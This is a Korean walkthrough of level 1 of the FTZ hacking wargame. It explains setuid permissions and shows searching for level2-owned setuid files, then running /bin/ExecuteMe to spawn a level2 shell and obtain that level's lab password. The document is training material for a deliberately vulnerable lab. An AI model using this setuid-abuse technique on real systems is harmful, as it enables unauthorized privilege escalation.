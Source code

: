 ## level1

#### 실행

``` //
[level1@ftz level1]$cat hint // hint 파일의 내용을 화면에 출력한다.
```

#### 결과

```
level2 권한에 setuid가 걸린 파일을 찾는다.
```

setUID가 설정된 파일은 실행할 때는 일시적으로 파일 소유자의 권한을 얻어 실행한다.

예를들어 root 권한 소유 프로그램에 setUID가 지정되어 있다면 실행할 때 root 권한으로 실행된다.

--------

#### 실행

```
[level1@ftz level1]$find / -user level2 -perm -4000 2>/dev/null // 루트 디렉토리부터 level2 소유의 최소 setUID가 설정되어 있는 파일을 찾고 표준 에러를 휴지통으로 리다이렉트한다.
```

ls -l 명령을 실행하면 파일이나 디렉토리의 소유권과 허가권을 확인할 수 있다.

소유권은 \[파일이나 디렉토리를 소유한 사용자][사용자가 속한 그룹] 형식으로 나타낸다.

허가권은 소유자|그룹|일반사용자 순으로 각각 r(읽기), w(쓰기), x(실행), -(권한 없음)을 표현한다.

setUID가 설정된 경우 소유자의 실행 권한이 s로 변환된다.

chmod 명령을 실행하여 파일이나 디렉토리의 허가권을 변경할 수 있다.

#### 결과

```/bin/ExceteMe
/bin/ExecuteMe
```

---------

#### 실행

```
[level1@ftz level1]$ cd /bin
[level1@ftz bin]$ ./ExecuteMe
```

#### 결과

```
레벨2의 권한으로 당신이 원하는 명령어를
한가지 실행시켜 드리겠습니다.
(단, my-pass와 chmod는 제외)

어떤 명령을 실행시키겠습니까?
```

-------------------

#### 실행

```
[level2@ftz level2]$/bin/bash // 셸 띄우기
```

#### 결과

```
Level2 Password is "hacker or cracker”.
```

